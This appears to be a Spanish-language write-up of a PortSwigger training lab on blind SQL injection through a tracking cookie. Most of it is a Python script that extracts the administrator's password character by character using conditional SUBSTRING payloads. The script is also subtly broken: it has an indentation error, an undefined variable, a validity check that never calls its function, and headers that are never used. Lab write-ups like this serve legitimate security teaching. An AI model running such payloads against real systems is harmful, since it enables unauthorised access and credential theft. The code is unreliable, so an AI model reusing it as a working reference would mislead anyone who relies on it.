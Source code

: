 ```yaml
---
title: Blind SQL injection with conditional responses - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


![20240803003736.png](20240803003736.png)

En este caso tenemos la vulnerabilidad en la cookie, que podemos abusar de ella para obtener la credencial del usuario administrator.

Observamos cuando la consulta es valida podemos ver `Welcome back!`

![20240803064350.png](20240803064350.png)

En caso de que no es valida no se tiene `Welcome back!` en el lado de la respuesta.

![20240803064418.png](20240803064418.png)

Teniendo en cuenta esto podemos hacer un script para automatizar el proceso

```c
import requests
from pwn import * 

#Cookie: TrackingId=cUnp1Gkl2HtZ4Jyi; session=dkPDdDnDrJzIT2wJYQGR2CYgbeWn2sMh

url_main='https://0a5200f1030e843082439c3700a60073.web-security-academy.net'
url_request=f'{url_main}/filter?category=Gifts'
letters='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'
session='dkPDdDnDrJzIT2wJYQGR2CYgbeWn2sMh'
id='cUnp1Gkl2HtZ4Jyi'

#payload = "cUnp1Gkl2HtZ4Jyi' AND (SELECT SUBSTR(schema_name,1,1) FROM information_schema.schemata='u')"

def ctrl_C(signal, frame):
    print('[+] exit')
    exit(1)

def valid_sql_injection():
    payload = "%s' order by 1--" % (id)
    return send_request(payload)


def get_name_credentials(letters):
    if valid_sql_injection:
        p1=log.progress('Enumeration DB')
        password=''
        start=1
        while True:
            for word in letters:
                #print(word)
                #TrackingId=xyz' a

                payload = "%s' AND (SELECT SUBSTRING(password,%d,1) FROM users WHERE username='administrator')='%s" %(id,start,word)
                p1.status('Start : %d Password : %s Letters: %s' % (start,password, word))
                if send_request(payload):
                    password+=word
                    break
            if len(password)!=start:
                break
            start+=1
    else:
        print('[+] Error, sql injection not found ')

        
def send_request(payload):
    
    cookies = {
          'TrackingId': payload,
          'session': session
          }
    #' AND (SELECT ASCII(SUBSTRING(database(),{i},1)))={j}--
      headers = {
          'Host':host ,
          'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
          'Accept-Language': 'es-ES,es;q=0.5',
          'Accept-Encoding': 'gzip, deflate, br',
          'Dnt': '1',
          'Referer': url_request,
          'Upgrade-Insecure-Requests': '1',
          'Sec-Fetch-Dest': 'document',
          'Sec-Fetch-Mode': 'navigate',
          'Sec-Fetch-Site': 'same-origin',
          'Sec-Fetch-User': '?1',
          'Te': 'trailers'
          }
    try:

        response = requests.get(url_request, cookies=cookies)

        if 'Welcome back!' in response.text:
            return True
        else:
            return False
    except requests.exceptions.RequestException as e:
        return False
        #print(f"An error occurred: {e}")


if __name__ == "__main__":
    signal.signal(signal.SIGINT,ctrl_C)
    get_name_credentials(letters)
```

![20240803121217.png](20240803121217.png)
